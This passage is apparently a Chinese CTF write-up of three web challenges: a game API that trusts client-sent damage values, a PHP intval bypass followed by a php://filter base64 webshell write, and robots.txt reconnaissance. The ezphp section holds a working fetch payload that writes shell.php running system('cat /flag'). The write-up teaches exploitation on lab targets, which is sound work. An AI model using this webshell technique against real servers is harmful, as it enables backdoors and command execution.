.then(t=>console.log(t))  // 打印到控制台

<font color="red">若用http请求则等价于</font>

POST /join HTTP/2
Host: 8080-e107a214-...challenge.ctfplus.cn
Cookie: session=浏览器自动带的
X-HTTP-Method-Override: POST
Content-Type: application/x-www-form-urlencoded
（浏览器自动加的一堆头...）

action=join&name=cornguard


### 3.好处析：
<font color="red">不用找cookie用控制台且会自动带上一些请求头。</font>
输入后

得到需用专用浏览器：Corn Terminal
这时要构建UA请求头，可以用浏览器插件Mod

构造好后再次发送上面的post请求，得到；

可以提取到游戏文件源码： src="/static/game.js">，在网页地址后拼接/static/game.js进行查询源码获取游戏过程和接口。

### 4.获取到游戏源码。

解析其可得；
#### 1.**找到接口**：`/api/start`（开始）、`/api/fire`（攻击）、`/api/state`（状态）`/api/fire`攻击接口地址`method: 'POST'`POST 请求`body: JSON.stringify({damage: battle.default_damage})`传 JSON，伤害值用默认的 35(<font color="red">但服务器端根本没校验，我们可以修改数值为999999</font>)
#### 2.因为有这段代码服务器每隔250ms就会校验一次状态，所以怪不能一次次打，要开始和攻击一起
一共有三波怪
#### 3.<font color="red">**CTF 经验**：游戏类题目**必看前端 JS**，接口和参数全写在里面，找到就能直接调，不用真玩。</font>
#### 4.构造自动循环脚本。
```c
async function autoBattle() {
  await fetch('/api/start', {method:'POST'});
  for (let i = 0; i < 10; i++) {
    let r = await fetch('/api/fire', {
      method:'POST',
      headers:{'Content-Type':'application/json'},
      body: JSON.stringify({damage: 999999})
    });
    let d = await r.json();
    console.log(i, d.message || d.error);
    if (d.flag) {
      console.log('FLAG:', d.flag);
      break;
    }
    if (d.error === 'BATTLE_ENDED') break;
  }
}
autoBattle()
```
<font color="red">解析：这段代码要用js写，在浏览器控制台敲的所有代码，都是 JavaScript。析：
**控制台真正擅长**：找 `console` 里的 flag、改前端变量触发下一步、读页面全局变量、测试 XSS payload 是否执行
**BP 真正擅长**：任意改包（改 Header、签名、参数）、爆破、自动扫描注入点、写插件做**后端逻辑测试**—— 这是控制台做不到的。</font>
(找前端线索 / 读flag / 试XSS  →  浏览器控制台
改请求 / 注入 / 爆破 / 绕校验  →  BurpSuite)


### 5.解析自动脚本
1. 因为有三波敌人需要攻击所以，需要一个自动攻击脚本包含开始、攻击、接受返回信息。
2. 先定义一个自动攻击函数：async function autoBattle() {
`async` = 这个自动攻击脚本会等服务器回复，不会一直发请求以免服务器反应跟不上导致崩溃。
3. 以POST请求方式开始游戏：await fetch('/api/start', {method:'POST'});
`fetch` 就是让我**手动控制这个动作**：想发什么请求、带什么数据，你自己定。
**fetch = 浏览器发请求的工具**。
4. 攻击请求：for (let i = 0; i < 3; i++) {发送三次循环攻击(服务器响应后才攻击)
5. 每次攻击做的事
```c
let r = await fetch('/api/fire', {
  method:'POST',
  headers:{'Content-Type':'application/json'},
  body: JSON.stringify({damage: 999999})
});
```
await：服务器说打中后才攻击下一次，因为将伤害拉满了，故一次就能打一波。
6. 接收服务器返回数据
```c
let d = await r.json();
console.log(i, d.message || d.error);
```
如果返回flag,就会停
```c
if (d.flag) {
  console.log('FLAG:', d.flag);
  break;
}
```
这一段是为了保险，万一血量太高而不返回结果
```c
if (d.error === 'BATTLE_ENDED') break;
```
7. 最后autoBattle()相当于是启动器，让浏览器自动跑。

### 6.解析基本函数
`function`定义一个 "小功能块"，相当于造一个工具

`autoBattle`给这个工具起个名字，叫 "自动战斗"

`()`括号里留空 = 这个工具不需要你给它任何参数

`{ ... }`大括号里面 = 这个工具具体要做的事

`async`告诉别人：这个工具做事的时候会 "等一下"（等服务器回复），不能急

`r`服务器返回的原始数据（还没整理过的）

`.json()`把服务器返回的数据整理成我们能读懂的格式（JSON）

`await`等整理完，再往下走

`let d =`把整理好的数据存起来，起个名字叫 `d`

`i`现在打到第几轮了（0、1、2...）

`d.message`服务器说的好消息（比如 "目标清除"）

``"或者" 的意思

`d.error`如果没有好消息，就看坏消息（比如 "打输了"）

`console.log()`打印到控制台

JSON.stringify 就是翻译器

### 析：为什么要用 JSON？
因为服务器和浏览器之间只能传**文字**，不能传复杂的数据结构。
JSON 就是一种**大家都约定好的写法**，让两边都能看懂。
### 具体样式
就是一堆**键值对**：

- `"damage"` 是键（名字）
- `999999` 是值
- 中间用冒号连起来
- 每个键值对之间用逗号分开
  - **发出去**（你→服务器）`JSON.stringify({damage: 999999})`把 JS 对象 → 字符串**收回来**（服务器→你）`r.json()`把字符串 → JS 对象
### 8.写一段自动函数要有什么
定义函数（async）
  → 发请求（fetch + method + body）
    → 收返回（r.json()）
      → 判断结果（if 出flag了就停）
        → 循环重复
          → 启动函数（函数名()）


步骤	代码例子	作用
1. 定义函数	async function autoBattle() {}	造一个自动执行的工具
2. 发请求	await fetch('/api/start', {method:'POST'})	告诉服务器我要干嘛
3. 带参数	body: JSON.stringify({damage: 999999})	告诉服务器具体参数
4. 收返回	let d = await r.json()	等服务器回复，解析结果
5. 判断结果	if (d.flag) console.log(d.flag)	看有没有拿到 flag
6. 循环重复	for (let i=0; i<10; i++) {}	多打几次，直到打完
7. 启动执行	autoBattle()	喊一声：开始干活！
<font color="red">后面详细学一下JS编写格式</font>
## web 应需学PHP与JS



---

## 二.ezphp(文件写入漏洞)
### 1.源代码：

### 2.源代码解析：
1`$num == 411413` → die不能直接等于 411413（宽松比较）
2`preg_match("/[a-z\.]/i")` → die不能有字母和点
3`!strpos($num, "0")` → die必须含 0，且 0 不能在第 0 位
4`intval($num, 0) === 411413` → 过关intval 自动判进制后必须等于 411413
5.<font color="red">由 header("Location: death.php");可知这道题至少有两关</font>  
(header：PHP 的一个函数，用来**发 HTTP 响应头**给浏览器。
意思是：**告诉浏览器 "上一关解出后，跳转到 death.php 这个地址"**。)
第一关：`index.php` → 过 intval 校验 → 跳 death.php
第二关：`death.php` → 写 shell → 访问 shell.php 出 flag
#### 关键点：intval 的进制规则

`intval($num, 0)` 意思是：**按数字前缀自动判断进制**：

- `0x` 开头 → 十六进制
- `0` 开头 → 八进制
- 其他 → 十进制
<font color="red">intval按自动进制解析后等于411413要让解析后必须包含0，则应为8进制；411413 的八进制是 `01443425`。
但又要0不在首位所以应加+</font>
5.在php函数中，解析数字时会先识别符号判断正负，后面沿用判断得到的数
+01443425=>01443425=>411413;因为有了+占了零号位，故0在一号位，成功绕过
intval("+123")   // 结果是 123
intval("-456")   // 结果是 -456

6.可知数字是GET请求故在网址后拼接/?num=+01443425


### 3.第二关
1.解析
因为本题是写**webshell = 网站服务器上的 "后门脚本"**，你上传一个脚本到服务器，以后就能通过浏览器访问它，让服务器帮你执行命令。从而读取系统里的flag
2.<font color="red">构筑webshell原因：题目不会让你直接看 flag。
它是：
1. `include("flag.php")` 把 flag 包含进来
2. 但 flag 存在变量里，不直接显示
3. 你得想办法通过漏洞，让服务器把这个变量的值输出出来

这道题里，我们是通过写 webshell 执行 `cat /flag` 命令读 flag 文件的。</font>

3.**因为有<?php exit;?>无论我们写什么文件都会自动加上`<?php exit;?>`**


#### 而`<?php exit;?>`的作用

**如果我们没有绕过它,没有用解码器先解码过滤掉php exit后再写入文件，我们写入的文件就会有php exit会让 PHP 代码直接退出，不执行后面的任何内容。**

这会导致webshell后门脚本写不进去，不能让服务器执行我们的脚本内容,拿不到flag

#### 4.绕过方法
需要看懂这段代码，才好构造websell

<font color="red">1.解析：
file_put_contents(文件名, 内容)
file_put_contents()：php的一个函数，作用是将内容写进filename文件
"."php中是将<?php exit;?>与content连接起来</font>

'/death.向death.php页面发送请求 

2.因此我们可以写这段webshell
fetch('/death.php?filename=php://filter/write=convert.base64-decode/resource=shell.php', {

3.解析：
php://filter	PHP 的伪协议，用来给文件流加过滤器
write=	写文件时启用过滤器
convert.base64-decode	过滤器类型：base64 解码
resource=shell.php	最终写到 shell.php 这个文件
4.作用：
<font color="red">在后面的content拼接后再执行编码
会将<php exit>解码成乱码从而绕过它
PD9waHAgc3lzdGVtKCJjYXQgL2ZsYWciKTs/Pg==
是base64解码后的
```c
<?php system('cat /flag');?>
```
cat/flag,读取flag</font>

PD前面要随便加一个字符
因为base64是4个字符为一组解码

所以在挑出合法字母后要凑成8个，这样解出来才是乱码从而绕过？php exit;

乱码不被检测原因：
因为 PHP 只认 `<?php` 和 `?>` 之间的内容。

5.由图知我们写的脚本还需用post请求方式


6. 综上，可写出完整webshell(后门脚本)
格式：
```c
fetch('/death.php?filename=php://filter/write=convert.base64-decode/resource=shell.php', {
  method: 'POST',
  headers: {'Content-Type':'application/x-www-form-urlencoded'},
  body: 'content=aPD9waHAgc3lzdGVtKCJjYXQgL2ZsYWciKTs/Pg=='
}).then(r=>r.text()).then(console.log)
```

### 4.得出flag


**要写.php 文件后缀，服务器才会执行里面的 PHP 代码**。

---

## 三 术之尽头
### 1.打开页面是纯静态画廊

可以得出攻击入口肯定藏在别的地方而
<font color="red">
robots.txt 是网站的 "地图说明"，告诉搜索引擎哪些目录能爬、哪些不能爬。</font>
ps：每个网站都有一个 robots.txt 文件，里面写着：
Disallow: /admin
Disallow: /secret
意思是："告述搜索引擎你别爬这些目录"。

#### 但是网站不想让搜索引擎爬的地方，往往就是藏秘密的地方
### 2.找他的原因
#### CTF 里为什么要找它？

CTF 题目经常把隐藏路径写在 robots.txt 里：

- `Disallow: /flag.php`
- `Disallow: /admin.php`

你一访问 robots.txt，就知道了这些隐藏路径。


### 3.继续访问/flllaaag.php
